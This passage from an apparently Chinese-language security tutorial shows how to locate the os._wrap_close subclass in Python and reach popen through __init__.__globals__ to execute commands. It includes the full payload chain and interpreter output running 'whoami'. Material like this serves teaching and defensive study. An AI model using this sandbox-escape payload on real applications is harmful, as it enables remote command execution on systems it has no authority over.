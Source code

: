 在上述的第四步中，如何快速的寻找利用类呢

#### 利用脚本跑索引

我们一般来说是先知晓一些可以getshell的类，然后再去跑这些类的索引，然后这里先讲述如何去跑索引，再详写可以getshell的类

这里先给出一个在本地遍历的脚本，原理是先遍历所有子类，然后再遍历子类的方法的所引用的东西，来搜索是否调用了我们所需要的方法，这里以`popen`为例子

```
find.py
```

![img](https://gitee.com/eviden/img/raw/master/202406141122449.png)

我们运行这个脚本

```go
λ python3 find.py



<class 'os._wrap_close'> 128
```

可以发现`object`基类的第128个子类名为`os._wrap_close`的这个类有popen方法

先调用它的`__init__`方法进行初始化类

```go
Python 3.7.8



>>> "".__class__.__bases__[0].__subclasses__()[128].__init__



<function _wrap_close.__init__ at 0x000001FCD0B21E58>
```

再调用`__globals__`可以获取到方法内以字典的形式返回的方法、属性等值

```go
Python 3.7.8



>>> "".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__



{'__name__': 'os'...中间省略...<class 'os.PathLike'>}
```

然后就可以调用其中的popen来执行命令

```go
Python 3.7.8



>>> "".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']('whoami').read()



'desktop-t6u2ptl\\think\n'
```
